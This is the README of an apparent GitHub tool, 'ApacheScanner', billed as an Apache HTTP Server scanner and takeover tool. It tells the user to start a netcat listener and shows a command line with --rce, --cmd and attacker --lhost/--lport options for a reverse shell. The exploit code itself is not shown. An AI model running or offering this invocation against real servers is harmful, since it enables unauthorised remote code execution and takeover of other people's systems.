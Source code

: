 # ApacheScanner
Apache HTTP Server Scanner and takeover tool with all common CVE's of Apache HTTP Servers


run a netcat or whatever listener for the RCE 

To run this Script install the Required pip Modules and define your command by this: 

```python3 ApacheScanner.py -u http://serveriphere  --rce --cmd "your command here" --lhost <your attacker IP> --lport <Your listening port>``` 

```
Usage: ApacheScanner.py [options]

Apache HTTP Server scanning and overtaking tool written by Yqno.

Options:
  -h, --help            Show this help message and exit
  -u URL, --url URL     The target URL of your Apache HTTP Server (default is http://localhost:80)
  -t TIMEOUT, --timeout TIMEOUT
                        The timeout of the request in seconds (default is 25)
  -p PORT, --port PORT  The port number of your Apache HTTP Server (default port is 80)
  -c COMMAND, --command COMMAND
                        The command to be executed on your Apache HTTP Server (default is ls -l)
  --rce                 Enable remote code execution on your Apache HTTP Server (default is False)
  --cmd CMD             Command to run if RCE is enabled (default is whoami)
  --lhost LHOST         Attacker IP for reverse shell (required if --rce is enabled)
  --lport LPORT         Attacker listening port for reverse shell (required if --rce is enabled)
 ```  
